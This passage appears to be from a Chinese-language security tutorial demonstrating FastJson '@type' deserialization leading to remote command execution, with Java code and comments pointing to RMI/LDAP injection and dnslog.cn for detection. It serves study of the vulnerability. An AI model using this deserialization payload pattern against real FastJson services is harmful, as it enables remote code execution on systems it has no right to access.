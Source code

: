 之后在FastJson中把代码改为以下，就可实现远程命令执行。

```java
String un = "{\"@type\":\"com.test.Run\",\"age\":24,\"name\":\"attackor7\"}";
JSONObject jsonObject = JSON.parseObject(un);
System.out.println(jsonObject);
```

FastJson完整代码：

```java
package com.test;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.JSONObject;
import com.alibaba.fastjson.serializer.SerializerFeature;

public class FastJson {
    public static void main(String[] args) {
        // userinfo Object对象
        // Integer age String name 字符串数据
        User userinfo = new User();
        userinfo.setName("attackor7");
        userinfo.setAge(24);

        // 我们想把数据转换成Json格式数据，我不想用自带的API（太麻烦）
        // 我就选择第三方组件fastjson来去做这个功能
        // 将json对象转换json数据
//        String json = JSONObject.toJSONString(userinfo);
//        System.out.println("Json格式："+json);

        // 分析漏洞利用 输出 转换数据的类型（类） 告诉大家其实前面有一个@type 转换对象类包
//        String json1 = JSONObject.toJSONString(userinfo, SerializerFeature.WriteClassName);
//        System.out.println(json1);

        // 以上代码为 对象转为Json格式
        // 下方代码为 Json转为对象
//        String un = "{\"@type\":\"com.test.User\",\"age\":24,\"name\":\"attackor7\"}";
        String un = "{\"@type\":\"com.test.Run\",\"age\":24,\"name\":\"attackor7\"}";


        // 实战中com.xiaodi.Run，也就是这个对象类包和类，我们是不知道的，所以一般是固定调用
        // 比如java.net.Inet4Address java自带的类包，详细可参考文章末链接的文章
        // rmi ldap注入去触发远程的class 执行代码（RCE）

        JSONObject jsonObject = JSON.parseObject(un);
        System.out.println(jsonObject);

    }
}
```

#### exp(漏洞利用)文章

![](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/3605.png)

使用dnslog.cn来判断漏洞;

https://blog.csdn.net/HEAVEN569/article/details/125390631